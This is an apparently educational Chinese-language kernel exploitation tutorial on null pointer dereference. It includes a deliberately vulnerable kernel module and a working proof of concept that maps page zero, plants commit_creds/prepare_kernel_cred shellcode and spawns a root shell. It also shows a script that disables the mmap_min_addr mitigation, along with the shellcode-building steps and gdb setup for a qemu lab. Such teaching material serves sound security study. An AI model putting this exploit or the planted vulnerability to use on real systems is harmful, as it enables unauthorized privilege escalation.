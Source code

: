 # how2kernel————第二节null dereference

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>环境搭建完了，我们就来先学一下最简单的null dereference的kernel漏洞利用，顾名思义，对未初始化的指针进行引用就会寻址到0地址，也就是null引用。如果程序中存在未初始化的函数指针，调用这个指针就会有一个类似call 0x00000000的行为。我们先来看一下32位下程序的内存分布：</font></br>

![内存分布](./000.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以假设我们有一个存在null dereference的漏洞的内核模块，当我们用一个用户进程去访问时，mmap映射一块从0开始的内存，然后在这块内存中布置好shellcode，然后调用未初始化函数指针时就会去调用我们的shellcode，完成提权攻击。所以有如下漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
void (*my_funptr)(void);
int bug1_write(struct file *file,const char *buf,unsigned long len)
{
        my_funptr();
        return len;
}
static int __init null_dereference_init(void)
{
        printk(KERN_ALERT "null_dereference driver init!\n");
        create_proc_entry("bug1",0666,0)->write_proc = bug1_write;
       return 0;
}
static void __exit null_dereference_exit(void)
{
        printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看不懂内核代码也没事，我们即使看到init和exit也可以猜测到这是注册了初始化函数和退出函数。内核驱动的模块创建有一个约定就是用module_init注册驱动创建的主函数，然后用module_exit注册驱动的清理与卸载函数。这里我们用了null_dereference_init作为注册函数，然后函数很简单，没有申请设备号，没有注册设备，只是设置了一个入口函数，就是我们的漏洞函数bug1_write（用create_proc_entry返回的结构直接访问write_proc在高版本内核中已不可行），bug1_write调用了一个未初始化的函数指针。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们看我们的用户层测试代码：</font></br>

```C
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

// xor eax,eax
// call prepare_kernel_cred 
// call commit_creds
// ret
// 等价于 commit_creds(parepare_kernel_cred(0));
char payload[] = "\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3";

int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanda", 5);
    system("/bin/sh");
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当执行这个程序的时候，内存分布图是这样的</font>：</br>

![mmap](./001.jpg)

- mmap映射了最低处内存0的大小为0x1000的一块内存（并不是物理地址，是虚拟地址）；
- 在这块内存上布置了shellcode；
- 打开了之前创建的内核模块后调用write与之交互触发write_proc函数也就是我们之前设置为的bug1_write；
- null dereference访问到了mmap的内存处，执行了我们的shellcode。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终内存分布图是这样的：</font></br>

![shellcode](./002.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们在qemu虚拟机里创建用户进行测试，为了避免麻烦我们直接写一个脚本（makeuser.sh）用来安装模块创建用户，并重新用cpio生成文件镜像：</font></br>

```shell
#!/bin/sh

insmod *.ko
mkdir -p /home/fanda
touch /etc/passwd
touch /etc/group
adduser fanda

sysctl -w vm.mmap_min_addr="0"
su fanda

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这一句sysctl -w vm.mmap_min_addr="0"是什么意思？是因为在这个内核版本中内核已经有了设置mmap的最小地址为0x1000作为缓解措施，所以我们要关闭之。运行poc：</font></br>

```shell
/mytest # su fanda
/mytest $ ./poc
/mytest # whoami
whoami: unknown uid 0
/mytest # id
uid=0 gid=0
/mytest # exit
/mytest $ 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到测试成功，我们成功完成提权。</font></br>



## 附录

**get shellcode**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先编写asm文件：</font></br>

```assembly
Section .text
        global _start
_start:
	xor eax,eax
	call 0xc1067fc0
	call 0xc1067e20
	ret

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为我比较懒，所以直接写了个脚本编译链接：</font></br>

```shell
#!/bin/sh

nasm -f elf32 null_dereference.asm  -o null_dereference.o
ld -s -Ttext=0  null_dereference.o -o null_dereference

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接使用objdump -s null_dereference就可以得到机器码了，不确定自己有没有写对的话就用-S参数看看汇编：</font></br>

```shell
➜  null_dereference objdump -S null_dereference

null_dereference:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 b9 7f 06 c1       	call   0xc1067fc0
   7:	e8 14 7e 06 c1       	call   0xc1067e20
   c:	c3                   	ret   
➜  null_dereference objdump -s null_dereference

null_dereference:     file format elf32-i386

Contents of section .text:
 0000 31c0e8b9 7f06c1e8 147e06c1 c3        1........~...  
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（此处再重复）因为我很懒所以我又写了个脚本：</font></br>

```python
import binascii
import sys

if __name__ == '__main__':

	result=''
	opcode=''
	for i in sys.argv[1:]:
		result+=binascii.a2b_hex(i)
	
	for i in result:
		opcode+='\\x'+hex(ord(i))[2:]

	print opcode

```

```shell
➜  shellcode python getopcode.py 31c0e8b9 7f06c1e8 147e06c1 c3
\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就能得到我们最终的shellcode了，等等，这两个call的绝对地址是怎么来的？为什么是这两个函数？</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在kernel中，给进程赋予root权限就是用prepare_kernel_cred()函数，参数用0表示root，然后commit_creds函数就是相当于提交凭证，就可以完成提权了，在我们用qemu生成的内核虚拟机的终端中用grep prepare_kernel_cred /proc/kallsyms就可以得到这些地址了（前提是内核未开启地址泄漏保护），同理也可以得到commit_creds函数的地址：</font></br>

```shell
/ # grep prepare_kernel_cred /proc/kallsyms 
c1067fc0 T prepare_kernel_cred
c15fcf3c r __ksymtab_prepare_kernel_cred
c1606504 r __kcrctab_prepare_kernel_cred
c160d1f9 r __kstrtab_prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
c1067e20 T commit_creds
c11bc6f0 T security_commit_creds
c15fcf5c r __ksymtab_commit_creds
c1606514 r __kcrctab_commit_creds
c160d235 r __kstrtab_commit_creds
/ # 
```



**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>之前我们开启qemu虚拟机的时候用了-s参数开启了远程调试端口，所以我们只需要用gdb的target remote：1234就能attach上去了，还有一些要注意的是gdb要选取linux kernel文件夹下的vmlinux作为调试文件。然后最好添加symbol文件方便直接下断点，后面要跟一个模块基地址，基地址可以在insmod安装之后用这个命令取得：</font></br>

```shell
/mytest # cat /proc/modules 
null_dereference 725 0 - Live 0xc8831000 (P)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>为了方便我还是写了一个gdbscript：</font></br>

```shell
➜  kernel cat gdbscript 
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/null_dereference.ko  0xc8831000
b bug1_write
target remote :1234
c
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以调试步骤是：</font></br>

- 先用（第一节的）boot.sh启动qemu虚拟机；
- 虚拟机里用makeuser.sh创建用户，安装模块，关闭保护；
- 用gdbscript attach上远程调试端口下断后继续执行。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>

![](./003.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>单步进入null dereference的函数之后可以看到我们的shellcode：</font></br>

![](./004.jpg)

